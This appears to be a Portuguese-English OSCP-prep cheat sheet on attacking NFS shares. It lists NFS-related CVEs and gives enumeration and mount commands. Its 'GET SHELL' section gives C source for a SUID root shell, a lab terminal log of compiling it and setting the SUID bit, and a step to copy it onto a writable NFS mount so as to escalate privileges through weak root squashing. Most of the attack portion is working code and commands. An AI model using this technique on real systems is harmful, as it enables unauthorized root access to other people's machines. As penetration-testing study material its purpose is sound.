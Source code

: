 credits: s0wr0b1ndef , gajos112 and jivoi

-----------------------------NFS DESCRIPTION-----------------------------

1. Network FILE SYSTEM

Network File System (NFS) - remote filesystem access [RFC 1813] [RFC5665]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.

FreeBSD is vulnerable to a denial of service attack. A remote attacker could send a specially-crafted NFS Mount request to TCP port 2049 to cause a kernel panic, resulting in a denial of service.
References: [CVE-2006-0900] [BID-16838]

Stack-based buffer overflow in nfsd.exe in XLink Omni-NFS Server 5.2 allows remote attackers to execute arbitrary code via a crafted TCP packet to port 2049 (nfsd), as demonstrated by vd_xlink.pm.
References: [CVE-2006-5780] [BID-20941] [SECUNIA-22751]

Novell Netware is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the xnfs.nlm component when processing NFS requests. By sending a specially-crafted NFS RPC request to UDP port 2049, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the server to crash.

-----------------------------NFS MOUNT-----------------------------

2. Mount NFS share

```
root@kali:~# showmount -h
Usage: showmount [-adehv]
[--all] [--directories] [--exports]
[--no-headers] [--help] [--version] [host]
root@kali:~# showmount 172.16.1.109
Hosts on 172.16.1.109:
root@kali:~# showmount -e 172.16.1.109
Export list for 172.16.1.109:
/var/nfsshare *
root@kali:~# mkdir /tmp/nfs
root@kali:~# mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock
root@kali:~# cd /tmp
root@kali:/tmp# ls -al
total 52
drwxrwxrwt 12 root       root       4096 Oct 30 23:22 .
drwxr-xr-x 22 root       root       4096 Sep 29 03:47 ..
...
drwxr-x---  2 nobody     4294967294 4096 Sep  2  2012 nfs
...
root@kali:/tmp# cd /tmp/nfs
```

----------------------------------------------s0wr0b1ndef----------------------------------
```
nmap -sV --script=nfs-* 172.16.1.109
nmap -sV --script=nfs-ls 172.16.1.109  //same result as rpcinfo
nmap -sV --script=nfs-* 172.16.1.109 // all nfs scripts

rpcinfo -p 172.x.x.x
rpcclient -I 172.x.x.x

#mount NTFS share
mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock

#enumerate NFS shares
showmount -e 172.16.1.109

# If you see any NFS related ACL port open, see /etc/exports
#   2049/tcp  nfs_acl
# /etc/exports: the access control list for filesystems which may be exported to NFS clients.  See exports(5).

READ:
https://pentestlab.blog/tag/rpc/

See root squashing
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/
```
--------------------------------------------------GET SHELL--------------------------------------------

Veja: https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/

Crie seu shell em C e compile:

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
```
root@an4kein:~/vulnhub/bravery/compile# vim rootshell.c^C
root@an4kein:~/vulnhub/bravery/compile# cat rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
        setuid(0); setgid(0); system("/bin/bash");
}
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell.c
root@an4kein:~/vulnhub/bravery/compile# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:6:24: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  setuid(0); setgid(0); system("/bin/bash");
      |                        ^~~~~~
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# chmod u+s rootshell
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# 
```

![rootshell](https://raw.githubusercontent.com/an4kein/PREPARATORIO_OSCP/master/NFS/IMAGES/compile_rootshell.png)

Agora copie seu rootshell compilado com permissao SUID para NFS montado e com permisao de escrita

cp rootshell /tmp/nfs/


